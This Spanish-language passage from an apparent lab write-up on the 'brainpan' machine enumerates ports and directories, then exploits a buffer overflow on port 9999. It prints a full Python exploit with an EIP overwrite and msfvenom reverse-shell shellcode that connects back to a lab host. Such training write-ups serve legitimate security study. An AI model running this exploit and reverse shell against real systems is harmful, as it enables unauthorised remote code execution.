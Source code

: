 Se descubre dos puertos abiertos `9999` y `10000`

### Puerto 10000 - `http`

Se va realizar una enumeración de directorios

![Untitled](/assets/img/labECCPT/Pasted image 20240402165315.png)

Se encuentra la ruta `/bin/` donde se encuentra el archivo `brainpan.exe`

![Untitled](/assets/img/labECCPT/Pasted image 20240402165352.png)

Este binario también se había encontrado en la máquina `Windows`

### Puerto 9999

El puerto `9999` se encuentra abierto y está corriendo un servicio `brainpan` igual que el binario encontrado

![Untitled](/assets/img/labECCPT/Pasted image 20240402165603.png)

nos muestra un mensaje de bienvenida y nos solicita un password.

En este campo se va a probar si es vulnerable a un buffer overflow

### BoF

En la máquina [Buff](https://pablochiquis97.github.io/posts/maquina-buff/), se llevó a cabo una exhaustiva revisión de la explotación de un Buffer Overflow. En esta instancia, nos centraremos únicamente en la explotación, dado que la máquina `192.168.100.134` no cuenta con una conexión directa a la máquina atacante. Por lo tanto, será necesario utilizar las máquinas `ShellDredd` y `breakout` como intermediarias.

Código exploit:

```python
##!/usr/bin/python3

import socket
from struct import pack

offset=524

before_eip = b"A"*524
eip = b"B"*4
eip= pack("<L",0x311712f3)

##msfvenom -p linux/x86/shell_reverse_tcp --platform linux -a x86 LHOST=192.168.100.133 LPORT=8484 -f c -e x86/shikata_ga_nai -b '\x00' EXICTFUNC=thread
shellcode = (b"\xd9\xc8\xd9\x74\x24\xf4\x58\x29\xc9\xbf\xc4\x54\x72\x58"
b"\xb1\x12\x31\x78\x17\x03\x78\x17\x83\x04\x50\x90\xad\xb5"
b"\x82\xa3\xad\xe6\x77\x1f\x58\x0a\xf1\x7e\x2c\x6c\xcc\x01"
b"\xde\x29\x7e\x3e\x2c\x49\x37\x38\x57\x21\x08\x12\xc3\x34"
b"\xe0\x61\x0c\x17\xd5\xec\xed\xe7\x73\xbf\xbc\x54\xcf\x3c"
b"\xb6\xbb\xe2\xc3\x9a\x53\x93\xec\x69\xcb\x03\xdc\xa2\x69"
b"\xbd\xab\x5e\x3f\x6e\x25\x41\x0f\x9b\xf8\x02")

payload = before_eip + eip + b"\x90"*16 + shellcode
##payload = before_eip + eip + b"\\x83\\xEC\\x10" + shellcode DESPLAZAMIENTO DE PILA

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.100.134", 9999))
s.send(payload)
s.close
```
